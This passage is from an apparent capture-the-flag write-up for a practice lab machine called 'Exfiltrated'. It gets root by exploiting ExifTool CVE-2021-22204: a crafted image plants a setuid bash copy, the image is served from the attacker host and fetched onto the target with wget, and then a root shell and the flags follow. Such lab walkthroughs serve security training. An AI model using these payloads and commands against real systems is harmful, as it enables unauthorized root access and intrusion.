    ~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/subprocess.py", line 554, in run
    with Popen(*popenargs, **kwargs) as process:
         ~~~~~^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/subprocess.py", line 1039, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
    ~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                        pass_fds, cwd, env,
                        ^^^^^^^^^^^^^^^^^^^
    ...<5 lines>...
                        gid, gids, uid, umask,
                        ^^^^^^^^^^^^^^^^^^^^^^
                        start_new_session, process_group)
                        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/subprocess.py", line 1991, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'bzz'
```

After installing djvulibre-bin (`sudo apt install djvulibre-bin`), we try again

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python 50911.py -c 'cp /bin/bash /var/www/html/rootbash;chmod +xs /var/www/html/rootbash'
/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/50911.py:61: SyntaxWarning: invalid escape sequence '\c'
  payload = "(metadata \"\c${"

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${system('cp /bin/bash /var/www/html/rootbash;chmod +xs /var/www/html/rootbash')};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```

We start a Python web server to share the image

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python -m http.server                                                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

### Download the malicious image

Next, we download the image to the target machine

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.218:8000/image.jpg
--2026-04-07 08:45:17--  http://192.168.45.218:8000/image.jpg
Connecting to 192.168.45.218:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 355 [image/jpeg]
Saving to: ‘image.jpg’

image.jpg                                           0%[                                                                                                              ]       0  --.-KB/s          image.jpg                                         100%[=============================================================================================================>]     355  --.-KB/s    in 0s      

2026-04-07 08:45:17 (1.33 MB/s) - ‘image.jpg’ saved [355/355]

www-data@exfiltrated:/var/www/html/subrion/uploads$ ls -l
total 8
-rw-r--r-- 1 www-data www-data 355 Apr  7 08:42 image.jpg
-rw-r--r-- 1 www-data www-data  31 Apr  7 07:42 yinjuomnqiowvex.phar
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

The we wait a minute or so for the script to run.

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ ls -l /var/www/html/
total 1160
-rwsr-sr-x  1 root     root     1183448 Apr  7 08:47 rootbash
drwxr-xr-x 13 www-data www-data    4096 Jun 10  2021 subrion
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

And we have our rootbash!

### Get a root shell

We get a root shell

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ /var/www/html/rootbash -p
rootbash-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
rootbash-5.0# 
```

### Get the user flag

Now we can get the user flag

```bash
rootbash-5.0# find /home -type f -name local.txt -exec 'cat {}' \;
find: ‘cat /home/coaran/local.txt’: No such file or directory
rootbash-5.0# cat /home/coaran/local.txt 
8<REDACTED>c
rootbash-5.0# 
```

### Get the root flag

And finally, we cat get the root flag

```bash
rootbash-5.0# ls -l /root
total 8
-rwx------ 1 root root   33 Apr  7 06:57 proof.txt
drwxr-xr-x 3 root root 4096 Jan  7  2021 snap
rootbash-5.0# cat /root/proof.txt
9<REDACTED>5
rootbash-5.0# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [bash - Linux manual page](https://www.man7.org/linux/man-pages/man1/bash.1.html)
- [cron - Wikipedia](https://en.wikipedia.org/wiki/Cron)
- [crontab(1) - Linux manual page](https://man7.org/linux/man-pages/man1/crontab.1.html)
- [crontab(5) - Linux manual page](https://man7.org/linux/man-pages/man5/crontab.5.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [exiftool - Linux manual page](https://linux.die.net/man/1/exiftool)
- [ExifTool - Wikipedia](https://en.wikipedia.org/wiki/ExifTool)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [getcap - Linux manual page](https://man7.org/linux/man-pages/man8/getcap.8.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [socat - Docs](http://www.dest-unreach.org/socat/doc/socat.html)
- [socat - Homepage](http://www.dest-unreach.org/socat/)
- [socat - Linux manual page](https://linux.die.net/man/1/socat)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [which - Linux manual page](https://linux.die.net/man/1/which)
